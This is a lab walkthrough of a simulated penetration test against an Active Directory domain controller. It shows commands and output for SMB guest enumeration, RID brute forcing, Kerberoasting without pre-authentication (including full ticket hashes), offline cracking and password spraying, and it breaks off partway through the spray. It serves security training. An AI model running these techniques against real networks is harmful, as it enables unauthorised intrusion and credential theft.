In this walkthrough, we will be compromising Past, a medium-difficulty Active Directory lab from Hack Smarter Labs. The engagement begins with no credentials and only VPN access to the internal network. A guest SMB session on the domain controller exposes a readable share and lets us build a user list by RID brute forcing. Kerberoasting without pre-authentication then pulls service tickets for every account with an SPN, and one of the pre-staged computer accounts cracks to a weak password. That password validates as `APPDEV01$`, which reaches a logon script on SYSVOL holding plaintext credentials for `tyler`. `tyler` holds `GenericAll` over the domain controller's computer object, and resource-based constrained delegation turns that into a domain admin ticket, an NTDS dump, and full compromise.


Created by: [Ryan Yager](https://www.hacksmarter.org/courses/e3a8e3b6-448e-4388-9832-ae1da184293e)

Let's get started.

## Objective

You have been hired by Hack Smarter to perform a Penetration Test on Past Systems Inc. During your call with the client, they stated they are currently adding new machines to the network.

The client has provided you with VPN access to their internal network, but no credentials.

## Scope

**Target:** `10.0.30.204`

## RustScan

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.0.30.204 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-08-14 21:31:32Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: past.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  syn-ack ttl 126 Windows Server 2016 Datacenter 14393 microsoft-ds (workgroup: PAST)
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 126
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: past.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: PAST
|   NetBIOS_Domain_Name: PAST
|   NetBIOS_Computer_Name: EC2AMAZ-A5O4OL8
|   DNS_Domain_Name: past.local
|   DNS_Computer_Name: EC2AMAZ-A5O4OL8.past.local
|   Product_Version: 10.0.14393
|_  System_Time: 2026-08-14T21:32:29+00:00
|_ssl-date: 2026-08-14T21:33:09+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=EC2AMAZ-A5O4OL8.past.local
| Issuer: commonName=EC2AMAZ-A5O4OL8.past.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-08T21:21:01
| Not valid after:  2027-02-07T21:21:01
| MD5:     aabd 42c2 488a 122f d61b f34f d73c 8bb7
| SHA-1:   d33e c468 3320 9c87 acdf fcd3 8817 8a48 90b4 5927
| SHA-256: 29e7 dc33 9580 87dc 663e 0817 b15b f407 8460 6570 4b1e 8921 0538 6f68 a792 d90b
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
47001/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49686/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49708/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
51351/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: EC2AMAZ-A5O4OL8; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, LDAPS on 636, the global catalog on 3268 and 3269, SMB on 445, RDP on 3389, and WinRM on 5985. The LDAP banner gives us the domain as `past.local`, and the RDP certificate and NTLM info confirm the hostname as `EC2AMAZ-A5O4OL8.past.local`. We add both to `/etc/hosts` before continuing.

## SMB Enumeration

With no credentials the cheapest thing to test is anonymous access, so we check it and enumerate shares with NetExec.

```
nxc smb 10.0.30.204 -u 'a' -p '' --shares
```

```
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] Windows Server 2016 Datacenter 14393 x64 (name:EC2AMAZ-A5O4OL8) (domain:past.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [+] past.local\a: (Guest)
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] Enumerated shares
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  Share           Permissions     Remark
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  -----           -----------     ------
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  ADMIN$                          Remote Admin
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  C$                              Default share
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  IPC$            READ            Remote IPC
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  NETLOGON                        Logon server share 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  Share           READ            
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  SYSVOL                          Logon server share 
```



*Anonymous authentication mapping to Guest with READ on the non-standard Share*

The logon maps to the `Guest` account and gets us READ on a non-standard `Share` plus READ on `IPC$`. A non-standard share is the lead worth following first, so we connect with smbclient.

```
smbclient //10.0.30.204/Share -U 'Guest%'
```

Inside is a single file, `AD_machines.txt`. We pull it down and read it locally.

```
cat AD_machines.txt
```

```
Name            DNSHostName               
----            -----------               
EC2AMAZ-A5O4OL8 EC2AMAZ-A5O4OL8.past.local
APPDEV01                                  
WEBDEV01                                  
DEV01        
```



*The AD_machines.txt file from the open Share, listing APPDEV01, WEBDEV01, and DEV01 as staged machines*

The file lists machines being added to the domain, matching what the client said about adding new machines to the network. Three of them (`APPDEV01`, `WEBDEV01`, `DEV01`) have no DNS record yet, which reads as computer accounts staged ahead of the machines themselves. The guest session won't return the domain users through `--users`, since SAMR (Security Account Manager Remote) enumeration is typically restricted to authenticated users and `Guest` is not one, so we use `--rid-brute` instead. It walks the RIDs (relative identifiers) under the domain SID (security identifier) one at a time and resolves each to a name, which the guest session can still do, and we filter the output down to user objects.

```
nxc smb 10.0.30.204 -u 'a' -p '' --rid-brute | grep "(SidTypeUser)"
```

```
SMB                      10.0.30.204     445    EC2AMAZ-A5O4OL8  500: PAST\Administrator (SidTypeUser)
SMB                      10.0.30.204     445    EC2AMAZ-A5O4OL8  501: PAST\Guest (SidTypeUser)
SMB                      10.0.30.204     445    EC2AMAZ-A5O4OL8  502: PAST\krbtgt (SidTypeUser)
SMB                      10.0.30.204     445    EC2AMAZ-A5O4OL8  503: PAST\DefaultAccount (SidTypeUser)
SMB                      10.0.30.204     445    EC2AMAZ-A5O4OL8  1008: PAST\tyler (SidTypeUser)
SMB                      10.0.30.204     445    EC2AMAZ-A5O4OL8  1009: PAST\EC2AMAZ-A5O4OL8$ (SidTypeUser)
SMB                      10.0.30.204     445    EC2AMAZ-A5O4OL8  1115: PAST\APPDEV01$ (SidTypeUser)
SMB                      10.0.30.204     445    EC2AMAZ-A5O4OL8  1116: PAST\WEBDEV01$ (SidTypeUser)
SMB                      10.0.30.204     445    EC2AMAZ-A5O4OL8  1117: PAST\DEV01$ (SidTypeUser)
SMB                      10.0.30.204     445    EC2AMAZ-A5O4OL8  1121: PAST\ryan (SidTypeUser)
```



*RID brute forcing the domain, filtered to user objects*

The three staged machines come back as computer accounts, alongside `tyler` and `ryan`. We save the accounts to a `users.txt` file.

```
Administrator
Guest
krbtgt
DefaultAccount
tyler
EC2AMAZ-A5O4OL8$
APPDEV01$
WEBDEV01$
DEV01$
ryan
```

## Access as APPDEV01$

We try AS-REP roasting the list first, in case any account has pre-authentication disabled.

```
nxc ldap 10.0.30.204 -u 'users.txt' -p '' --asreproast output.txt
```

```
LDAP        10.0.30.204     389    EC2AMAZ-A5O4OL8  [*] Windows 10 / Server 2016 Build 14393 (name:EC2AMAZ-A5O4OL8) (domain:past.local) (signing:None) (channel binding:No TLS cert) 
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```

Nothing roastable comes back. The [AD mindmap](https://orange-cyberdefense.github.io/ocd-mindmaps/) points from here to Kerberoasting without pre-authentication, which uses an account that does not require Kerberos pre-authentication to request service tickets with no credentials at all. We name the `Guest` account, which needs no pre-auth, and ask the KDC (Key Distribution Center) for a ticket to every account with a Service Principal Name. Part of each ticket is encrypted with the target account's key, so we crack the ones we can offline. The requesting account only needs pre-auth disabled; we never authenticate as the target accounts.

```
impacket-GetUserSPNs -no-preauth "Guest" -usersfile "users.txt" -dc-host "10.0.30.204" "past.local"/
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Principal: Administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Guest - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$krbtgt$PAST.LOCAL$*krbtgt*$2df54862aae6ef2a32a522b7$979b99edf684664554dbddab5225d2d85b964ce0d4192f9d33e682ddc66038f9b1c580fdae5e73bcb7657aec54e5824ba70e2aee9cc0af5d8655232cb7b09eb82f8ee358b09f0a785d747aef2673342f74d246b76d15eaa83e2c5686536453cdac63a8d69cee504b5fac23d4ebbad5d6cfe32e87dab205f616740a863e5a79323751d42ed8c6d98aed55f7c12a6dc4bd955c0d9baeae3dd496a523164ad01754f14513f92dc60f5ea4ac8307ef564b7b3c08391811270027bec79b7483de0ca876ab5d3d95282b5270341732d06a400088ae0c53c21441e05668004f9e00100111b72f846b0467861238e3e7639e9bebf964e242e74929686d0d39509fccaf13efb0f4abccde6d0322440663e8eb7418493221ca1389425a24d5477450ee7548b64f7f266893fd2d91686c211d3ef1dce3b0d5bb16213bc3cf7b921d11a3578b30c84863c7d0a0c0ae90e71ca26e69d0cc0701084ec197e70e9b1ebe099e4def538ee47fe40935db0421411db3de3311fcacc9b8da5422f3c6248a4c018344dff5d763b6bfa3eb2a6cd031aadc1ecad86bdfa1a1dd40ccfb3bcddf00b083daa2dc16e13132073ae19b88b1d2092abdca6ade7b9cf0b802e0041c4fefad9d99a98302fe0f8eeaa49aee8af81ca8b499a3862b89c8e874c843f97341655ae8f7f66c4d427a8b597fc0a95985ea3a2e77c4fdec8aeee7394d883a2f40244bd2df5caf021d1dc29c9f984365e2fcbb141b339e9816e3437521a47ecd511bdcb4044c1aeace6ca66659fced878992a88e1a488f40733570e61c47dd0ae298f583f6d5eff9dab4993cad253e78b23a24eaeeb64833ab3a7fce8944e9f64e49a05c3e566a8496710986f67f8a920166d77125e098697a41df09da672b72cbe18bab3b759b1af8c0f95a571bee35a88b8cb7f26c0a874a1011c48e36913568e3867588e16dcf1aeb369d9345587f07a73666700932a7b3fe735980c953f5f7c1164f436c305af1f5854741b424a8b45797e5cd4b0b142956334ef736663688e801552942c662df7f071d1c816e1f1301629ed0c400c5e2c784b824cfe602188fabdbe980d31fce8c63746b74645f3d577c35fe064675e1bd9b313659c787cf065a6769addf4c7b34044780e3c3767ae203815b15bfeef51ef02ab7a694ea64bfffcd8274c393a441df645af3583dcde6254f9b948f30bf8c892a384b6fa55b4fff4b4769da4cfc98646b203955bdcee054b079b7e4d98c3c29363ba277dcf4a28bc17c5dae44b78bef736aac4a1166642fac5aa2b5754a61d698412fca5c6778fae3e3865ef13ba30e2a75a3dfc56a71130f38c03ff37d5a0a75962f92d86ca9e60da692d909a249e19ea1741ee9b7ccbd3d22f2e9c1deda4cf2d2a91ebc6df2d71cfad733c63641139861c8242ac0644831041115a97860e63fe46ac64d0f734f2901446617eb07cfa73aef
[-] Principal: DefaultAccount - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: tyler - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$EC2AMAZ-A5O4OL8$$PAST.LOCAL$*EC2AMAZ-A5O4OL8$*$28e4b6bf87420a47fff9f1d3$da546dc7590eb409e351dac1191ec7b845f3111fcd86a8c8809b4a42142751ae372ef0f14898dc0f2594b023d52b9a6c7abe8b90ea8c81be42e3bb7e4f528af3ae7d76f6bf23848956a25968c270a33f7d781c47dc1fc55d0996f0e5329f6639114073ee6ca4c72c3cc27d5c00759098d98d38c4dd93faf334523b767b252e1a966a5a9026ccadde55caece9fe2cae008b35b11118b725290ce6ce28fbb4705d9a0168e67c24406a81f9e0c8f51c0d81cd18616450113716b42c44e30c73c85b4a5ce79d2e5726d6413637d5dacd0fe09751f906b4b857792000e0ae94dbb6e14e0e3e980ff8b9f719cc937f598b9c672bd54adc544a7948da09c1a166b3abbc3bb1475d6562e77b6d1c9c4b6ac864d7b44f9c08677ca1c3aeb1a0fd11636939bc3d3a59248ec2fdc7ed9b490281eec65e53380f2789c649ce98e13f96bf67ac4d6fa9480029c96039185843b3ae58422ccc9d7ee2d1e6f22bd1facf64eacd48e1eedcd27753e3df40514995649bcc564cbe852ec767e979d96ce457c6c5aa0f48686a770522362028d02f1558956766c789f4ecc77b333dde91ac5ddff1bbc45ed8ca66d816463c081d63a92f56a4d40aea218e4a7fee1e2550695d25f0e333efed71a5c4780b9cc9500aa92d0a64ff264a4e4f8c084f5c76a48caee13b1df08c2b0e7dfe0506a8b6a31c260ecd2aadad9dbb33de38e698ff6c6fac2c39afd577cea49e9e58e77f98dd15a17deecb00bf24d82172660510879d937ec88e6d187241a1d60995bf62ae6d1f165ba62ace5e53d72c5e052798bb38b8a6078aef325e1fc0f90666a3a1823e6a45d5c9b8204ea3ffccab1507bf4a03b6ab42157451f384a9efa7fec5107912f72d73651c67a54e8f647ce4fa5b230499cd2b75b1e46cbae62a9228bb1d5925b970ecdf766517da1c6fc1b6bd4df793153b64c6c54d9b461714e4ccd28e7fb544b98f0e80537e7e564ada5bf37cd21d301ab9c531077ad3db28eabeeb39e42dbc198dad600d49c1a842d162a8ddadda580f1c1b85702075e54d9b1d25c51d5649e993ac9ac197a3c73ef96480dd1957f2700955f15e21290ff22770a45a22abc38203be4841613b1f99ad6256fe4497bad27317f7f032f08fa01991234f0d06dd9622986a28bfa05fb2e4711afa4d7cd18983a71659d693fdadfac166ef12465376dd7d24a85522ae7cb3ec0f72a82509cc30697d91d880cb7e9598c910e46c567a4b7d043c91a66f1e731cd7514a9a61d9d215804796eac58cf3483dd6228581180e1937e5e75a95e346b943e20837c72005b489a35b509d9dec133d390554814bb4a1b699c0deef40e0dc9698060de52cd3f87c26
$krb5tgs$23$*APPDEV01$$PAST.LOCAL$APPDEV01$*$c8265009b7ec5125913153b88b52c528$0b3d3caf5b37b09b0bf9c3f3edd13c18d8dee21b6152174dd53765e09164523737bb349508983538badd85305742b5cf120bd9e6e406b54e050a2024f4007835c37191dbd318a39050eda8d8718be9fbd23219de302dd4d7ffb38d8b8585efb0675fd3f744201e4608c411e0c61ac6c72fb5b8f11bdc2a61c56644dd7eba145fb0abf2706af33a2b866baed40e0799242c8a8d465b9caf5d53ae474b275dca89d9b44656100c88660501dae935b2eb8c01d7870a00d304eed3db561cf88d678305e8f5277e6d9fa79d5d43def729ef85737a4c09394d5cc6a1562273408f42ee00efe803e9d5e041461c3cf75369230a9a09083974c049bbaf4a1acc933e3a0dee9634977a267dfe59bc78813e27c3d9e5d299bb84a5b81b4165f707ebccb32fee14e6dfaf22290610fd7bc5a4b3e3ecd4059c8008ff0b4ac03b7f0392b6e88628742d65d89fd8779ae9d6c3e7343439452351353f478a6101b04da69a741a461b5aba1cdd7dfee1d83b0f67caf87a27ba5a3078659adcc3b043f31988779c23291a47befff8f4be6654b599ba9baccf9b778a02193b8132cd336f032c228d5e1d206422d6f6afe9b870edd7d5fb9fa110606e77e48fe5701cb579b2fcc2b615aa9f6fe71f3a7eb108a550e5907479d4dbea0f3c27fa4171e4d6dbf1a29f7dfb41c77284ad73c48e1471c51863132161910bc83c957049500e54334b3f87179676d5454cdd0dcfdd9902440c67355fd9bc79cc354e8ea5c20e29e241cefae43f75e02705c3725e8eda124827cbd09d244c22613d375e13499d5c94a24fe6ac80b33b134b32280ad84bb21ca6c483803a89044e104c68c3d0dfeb9aa2c0061d5e34d50d02baf10a6f2abe3e5163c69081e537abbeb66cc72ccb3c673b1f4cf26a86c7cbdf9b5a370fe18e0062c508a7161d462639a83e5717311e9064499e807773c6dc0fb21ae76f84ea5797abb9a3860e84c9105b41ee644a685a698a28d7e30c733af368434b68e694f5eca5a3c859856b10a1dfab8160bccbbd5156c1a13062897ca22ee7c592b45dba35def0f9a29ad5c432389a12cbe90cf27db29b2e6682cb2a703970a088028191a21d1006deefa634ba81f305b8d865e51e62223373a1c6db7cf8ab8684b54f802c3556d1aa0b338164694943bf96a915bf817ae602cd2b9d91544382e1e49e0c86621521f10a9bf0ca231d7ad7e562dc435d9166fd91c651dd919d28b9865c2f5ad706cc3f0db2adf74056f37020e7430b3ff99d68c29daa51bf5728550ece2be80f6c2b15790df4e421e96f31b4c0798d7c9a4e98f93fc10e97cec844afa91bf8a07eff7c459c97d6c777bb87
$krb5tgs$23$*WEBDEV01$$PAST.LOCAL$WEBDEV01$*$9029014623478a22f6cef70e2a24992d$cd23c8092556fe947dd474e1de2a504d6e4975d00f114573c8a23ea4f16ab98e9f584f33dda4a447582f713150cb6ada8806cad45539167ac39ed2c2c46bb1addfaa5a55f19cd2786b3048e297ab89e534e1e85b1d4a32c9071edc7a3b0ea8ffd4e8a28760c07e91efe814f40426e4d32f166742ec0f1be56d38d432bb04910481264aa19e2bb294568a896dc2e719d4358e159379cfddaaa1b4566fe24eb4d67d18c72541266ca1ac223545f7e332c80e718208b917f7d2f491667b94eb904dc653be68d380cf37870cea6d92c061bdb9bb0da51e6d4c301d942f48755c2f81271f2867f83162a48bc60a499590f088e187b479ece0af3d7831fa8c8193b3bc9855a8d1b77104a52071f439ff7efe6aceb4a3c192f27f210ac97c84fe388af743b7d23c578e40f076942316007be69fdffe3faaa28296b1541755c78f869636165256c15822c553229f668607c21d171d465fc1f256cedb6f65f4f64403564d2173a9a708042d8d1fff74b657f5c72773eb34b5b0f5ecc7f0f27fe91c8dc3a3a57c874b1a5629b7bd4127d7e8783fc2013758cbcf4f55d246c5a7353cd4920580fda7cfaf07c202221361e4c9e27267e35515769b1c2914b9c544950247a09ddd1c6f552dfd386ea6169b1c9016e6a4f29b5c69c66891e4a5e887c9a8c6591eba64d438e54024b528fe859616abf46ddde414caa94f0eabd6b84c412bee7e52e2474905b7df012706c4d4011ececc563ec036428147ed51fcd91f6cae63b47ac614be2b837152b3b6fa3a36c85e9172f6295bc64e50d35ae42d9a7e8294b749628e76310af787bb6fd55ad0e42ec8d7a898a9af36d4e0a4f9c249541ca1162c5d7854a5f610c1f978d7224faa19a0743665a531bd72c960536b4911c75ceb8e15cb02038f5ed55e097fd3b9faa274c10082ddab5c6a481c68fe26ab3038d01ec8c313a9adde6b36c4a4ae37eb92f0994bbb2445df95205b41d3079818e6223a71f6a45f97d06061fe7dcfe64494a0cada6aa49b674fbdfdfccd8add9249ca5a31a7e3b3c77566686faa34798f1852de9caed77a30176af84eb1ad5de737f516777d410e31a16676e2c973ca455e911406144e9951130a5fb2287b98bbfba0e718325ce942facfe77dda6b99f2857ecf7c3d4d674a22390b35dd03d08f1ef00229efded28bd4aeb32a2258b5a3a7b695879b37135a0ed013e018ab37e02a96ae937ff0473fc01e53631c95c73fdcce83da8d9b328a61350b09844a06a679f73d62832af2e296fa938f60b156c9327c2a4b6af724895ea6fa9ef2998854eaa3f824ca5c4c6de4ff3a328232390f7561c6b186aa88d7f5e0ae
$krb5tgs$23$*DEV01$$PAST.LOCAL$DEV01$*$3aaa4d8df8135d2a1f149fac374505c3$d355e3b2f9d94869bf465b694dcc99ce7c294c6da51f70a0ea0e6ad17cd8793815b02f8d03d805516ed3edef198a95eeef5e643f6b53ded97b6c3ee73cf7fe3c677aa98285a5919c904767bacdd988fe5ce0b17ea6391cef10fbc606bb5b49c9848a2cfdb0c225e58e772b287b0b87f5df74452f321d36baf89bd87109b63b4298409bef157899df893c9a40b41bedeb99dfb0f02a9db0e9d662a14e4adfd50ae5a18f9d56e0b400246ff32e1acec9bc4f86e8c918bca5fad1e79623ef4a51ef7865570827fac1276b5bd6c3dda581fa839c6c9d5f4fbb746f976182819d9b432b4d23297c134064ba026d06c2f603fdef541a88bf2a0ca8e793caa51667242996b222961f39fb13738c180891bb93c30d531b938702c932f1eba096e984f3c96c4db023a3122801ac6b71bab266bdc8cc460bc5d1bb0178ad5dcbbc6477e4b122cba0486e8a21d7ba8cf4c557d4148d3b34a14c8a049bcfbb4bf5ece54f067e865a0eace28278f90cc9d80a325c75d0dd55e1eb4695e88bd7c459606a5a3bebc201036c29c533fa86fec88983d83cea7d4fb58c8eebd9cad245f859aca17b772995f7942139e09f6c728077e8fa895b2256719c6b48fb62af08580b32f0594214ae923e2eaeaf50164ac594f52d95d31b223c175bc85ed0baa7297da6f81c3bd8282d88df042198de7f6209ee7fa095f66f2f445bc4cbfcdd7aa9caf7dac34be4570ce51ed5d35cb15ed4383eb891e300bacc7315a4ccf4b11deb1935b315fc6c6b3804aa7f1cc0736d51e9b206b7c8ee427d3c3d7fb9d6fd787434218877d387d9444788772fd065bde6902ad9a1196ca3005ce572a770f8594cb96e6957e5641bfa1875283d1a907c9706352cd7daffa4997c0ecce9bcd734f9e6766ed59708b0c5952e59b95c51e8f5eda1e9c050f8f13054fcadadbc094ff509f0f6360387895fa52f2a5c937e1b86bf5d28946c75ed096fb003bf011b1e61fb0f351b44a8c2c3f85dfd04fb035ec8ea928ab5f585264e1fa43886210797bc53072d6779cf1d46f9c311f281798597e2abfbb6be76ba25dbd9004eb3ff5b390545fd9718ab029f8b1bcc844fd9236d40c7dcc18b5df27cf3f817e2a655ebaafd4468feee93687101755c09dbd2bcaefba7cd36c8b4d2ea99d6223624e2909060c4af568c2cce21b61703fefb678def0edf106b5fc51915b0ead63741747bf4a12b241c8d7d3c613763ed98ded181dec329dfc15bd37406fef202faaa822b72c7f552e1089b6d9550b9079e33e715a82960997ee01365ee5d910bb05579bf4dbf0f8d212520ec5527298b0703a6e354b644627badf907e02a02c29a9e
[-] Principal: ryan - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```



*impacket-GetUserSPNs with -no-preauth returning service tickets for the SPN accounts, no credentials used*

The accounts with an SPN return tickets. We save them to a `hashes.txt` file and run john against them with `rockyou.txt`.

```
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 
```

```
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd!        (?)     
1g 0:00:00:06 DONE (2026-08-14 13:56) 0.1584g/s 2273Kp/s 4880Kc/s 4880KC/s !!12Honey..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



*john cracking one of the three RC4 computer account tickets to P@ssw0rd!*

One of the three tickets cracks to `P@ssw0rd!`. A domain-joined machine normally carries a random computer password that produces nothing crackable, so a weak one set by hand means the account was pre-created for the machines still being added. We spray the password across the user list to see which account it belongs to.

```
nxc smb 10.0.30.204 -u 'users.txt' -p 'P@ssw0rd!' --continue-on-success
```

```
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] Windows Server 2016 Datacenter 14393 x64 (name:EC2AMAZ-A5O4OL8) (domain:past.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [-] past.local\Administrator:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [-] past.local\Guest:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [-] past.local\krbtgt:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [-] past.local\DefaultAccount:P@ssw0rd! STATUS_LOGON_FAILURE 
